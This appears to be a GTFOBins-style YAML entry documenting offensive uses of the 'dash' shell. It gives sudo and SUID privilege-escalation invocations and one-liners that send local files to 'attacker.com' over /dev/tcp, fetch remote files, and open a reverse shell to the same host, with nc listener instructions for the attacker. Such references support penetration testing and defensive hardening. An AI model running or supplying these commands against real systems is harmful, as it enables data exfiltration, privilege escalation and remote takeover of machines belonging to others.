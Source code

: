 ```yaml
---
functions:
  exec-interactive:
    - code: dash
  sudo-enabled:
    - code: sudo dash
  suid-enabled:
    - code: ./dash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        dash -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        dash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        dash -c '(echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d \"\r\")" != "" ]; do read i; done; cat) > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        dash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        dash -c 'dash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
---
```

